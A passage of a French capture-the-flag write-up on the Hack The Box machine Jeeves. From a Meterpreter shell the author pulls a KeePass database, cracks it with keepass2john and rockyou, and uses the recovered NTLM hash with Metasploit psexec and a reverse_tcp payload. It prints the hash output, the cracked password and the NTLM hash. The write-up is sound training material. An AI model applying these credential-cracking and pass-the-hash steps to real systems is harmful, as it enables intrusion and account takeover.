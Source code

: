 Dans le dossier *Jenkins* précédemment listé on trouve différentes clés (*master.key*, *secret.key*, *initialAdminPassword*, etc) malheureusement il manque le fichier *credentials.xml* [qui aurait pu](https://www.n00py.io/2017/01/compromising-jenkins-and-extracting-credentials/) nous permettre de trouver un password à tester ailleurs.  

Lors de mes errances quelqu'un a déposé à un moment un *credentials.xml* qui a du mettre les autres participants sur une mauvaise piste... sympa :(   

Avec notre shell *Meterpreter* on en en mesure d'accéder au fichier *user.txt* (le flag de mi-parcours du challenge) qui est dans le bureau de l'utilisateur. En revanche le système Windows semble bien patché, et le module *local\_exploit\_suggester* est d'ailleurs peu bavard.  

Boss final
----------

Il est temps de fouiller ailleurs et toujours parmi les fichier de *kohsuke* on trouve un énigmatique fichier avec l'extension *kdbx* qui s'avère lié au gestionnaire de mots de passes *Keepass*.  

Après avoir téléchargé le fichier via *Meterpreter* il est temps de trouver quoi en faire... Un simple *apt-cache keepass* suffira à me mettre sur le chemin de *keepass2john* qui permet de convertir le hash de la passphrase maîtresse dans un format cassable via *John The Ripper*.  

```plain
devloop@kali:~/Documents$ keepass2john CEH.kdbx
CEH:$keepass$*2*6000*222*1af405cc00f979ddb9bb387c4594fcea2fd01a6a0757c000e1873f3c71941d3d*3869fe357ff2d7db1555cc668d1d606b1dfaf02b9dba2621cbe9ecb63c7a4091*393c97beafd8a820db9142a6a94f03f6*b7
3766b61e656351c3aca0282f1617511031f0156089b6c5647de4671972fcff*cb409dbc0fa660fcffa4f1cc89f728b68254db431a21ec33298b612fe647db48
```

Armé de la wordlist *rockyou* le mot de passe tombe relativement vite (*moonshine1*). On peut alors ouvrir l'archive *KeePass* pour voir les mots de passes stockés.  

![Jeeves HTB Keepass vault](https://raw.githubusercontent.com/devl00p/blog/master/images/htb_jeeves/keepass2_screenshot.png)

On remarque surtout la présence d'un hash au format Windows (Lanman/NTML) qu'on s'empresse d'utiliser avec le module *psexec* de *Metasploit* :  

```plain
msf exploit(windows/smb/psexec) > show options

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting                                                    Required  Description
   ----                  ---------------                                                    --------  -----------
   RHOST                 10.10.10.63                                                        yes       The target address
   RPORT                 445                                                                yes       The SMB service port (TCP)
   SERVICE_DESCRIPTION                                                                      no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                                                     no        The service display name
   SERVICE_NAME                                                                             no        The service name
   SHARE                 ADMIN$                                                             yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write fo
lder share
   SMBDomain             .                                                                  no        The Windows domain to use for authentication
   SMBPass               aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00  no        The password for the specified username
   SMBUser               Administrator                                                      no        The username to authenticate as

Payload options (windows/x64/meterpreter/reverse_tcp):
```